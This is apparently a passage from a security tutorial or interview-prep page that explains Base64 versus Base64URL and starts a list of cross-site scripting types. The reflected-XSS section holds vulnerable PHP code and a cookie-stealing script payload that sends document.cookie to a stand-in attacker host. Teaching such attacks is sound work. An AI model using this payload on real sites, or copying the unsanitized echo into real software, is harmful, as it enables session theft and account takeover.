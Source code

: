 ## 3. What are the differences between Base64 and Base64URL encoding?

**Base64** is an encoding algorithm that allows you to transform ANY character into an alphabet that contains latin letters, digits, plus, and slash.
- example : `???>>><<<???:`->`Pz8/Pj4+PDw8Pz8/Og==`

**Base64URL** is a modification that works for URLs. Since "+" is treated like space and "=" is used with parameters, like `?param=value`, normal Base64 encoding would cause errors and it would simply not work. 

The example would obviously not work and it would cause errors, so that's why Base64URL was invented. It will change the special characters.
- example : `Pz8/Pj4+PDw8Pz8/Og==` -> `Pz8_Pj4-PDw8Pz8_Og`<- this format is valid and can be used in URLs.


## 4. Name 5 (or more) types of Cross-Site Scripting.

##### 1) Reflected XSS
- One of the most common vulnerabilities in the world
- Not stored on the server
- Needs user interaction (at least one click)


Suppose we have a really secure PHP code like this :
```php
<?php echo 'Search results for : ' .$_GET["q"];?>
```
`$_GET["q"]` = `?q=SEARCH-HERE`

The problem here is obvious, the input is not sanitized at all! We can simply type : 
`?q=<script>alert()</script>` and an alert will popup. Obviously we are leet hackers and we want more than just an alert (aka javascript injection), so here's a simple cookie stealer : 

```txt
?q=%3Cscript%3Evar%20x%3Dnew%20Image%3Bx.src%3D%22http%3A%2F%2Fattacker.host%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E
```

Decoded payload : 
```js
<script>var x=new Image;x.src="http://attacker.host/?"+document.cookie;</script>
```
- The payload here creates variable x, which points to `attacker.host` via the `.src` attribute and adds `document.cookie`, which grabs the victim's cookie (if HTTPonly not present)

The drawback of reflected XSS is the fact that victim needs to click on the link, which, as you can tell, will look really weird. There are some methods, such as using URL shorteners, but these are still suspicious.


##### 2) Stored XSS
- Is stored on the server
- Does not require user interaction (apart from loading the page)
- More impact than reflected XSS 
